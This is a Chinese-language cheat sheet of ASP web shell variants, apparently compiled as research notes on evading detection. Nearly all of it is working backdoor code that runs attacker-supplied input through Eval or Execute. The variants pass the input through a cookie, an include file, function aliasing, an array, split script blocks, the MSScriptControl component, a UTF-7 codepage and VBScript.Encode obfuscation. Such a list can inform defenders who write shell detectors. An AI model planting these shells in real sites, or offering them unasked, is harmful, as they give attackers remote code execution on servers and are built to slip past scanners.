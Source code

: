 
# source

#### cookie
```
请求包
GET /1.asp HTTP/1.1
Host: 192.168.66.134
Cookie: response.write(111)'
```

```
<%
eval(""+Request.Cookies)
%>
```

#### 编码
```
<%execute(unescape("eval%20request%28%22aaa%22%29"))%>
```

```
<%Eval(Request(chr(35)))%>
```

#### 语法
```
<%Eval(Request(chr(35))+"")%>
```

# 数据流
#### 文件
1.asp
```
<%
code=Request(1)
%>
```

2.asp
```
<!--#include file="1.asp" -->
<%
response.write(code)
%>
```

访问2.asp?1=response.write(1111)


#### 函数传递
```
<%@LANGUAGE="javascript"%>
<%
param=Request(1)+''
func=eval
func(param)
%>
```

#### 数组
```
<%
x=Request(1)
param = Array(x,"xxx")
eval(param(0))
%>
```


#### 多个<%%>
```
<%code=Request(1)%>

<%
Eval(code+"")
%>
```

# sink

#### 代码执行
Eval、Execute、ExecuteGlobal

#### 组件
2003可以，2008找不到组件
```
<%
set ms = server.CreateObject("MSScriptControl.ScriptControl.1")
ms.Language="VBScript"
ms.AddObject "Response", Response
ms.AddObject "request", request
ms.AddObject "session", session
ms.AddObject "server", server
ms.AddObject "application", application
ms.ExecuteStatement ("ex"&"e"&"cute(request(1))")%>
```

#### utf7编码
```
<%@ codepage=65000%><% response.Charset="936"%>
<%
e+j-v+j-a+j-l(request(1))
%>
```


#### VBScript.Encode
http://127.0.0.1/1.asp?1=response.write(1)
```
<%@ LANGUAGE = "VBScript.Encode"%>
<%#@~^EAAAAA==n7lsvD;E/DcF*#hAUAAA==^#~@%>
```

# 参考
新仙剑之鸣、LandGrey
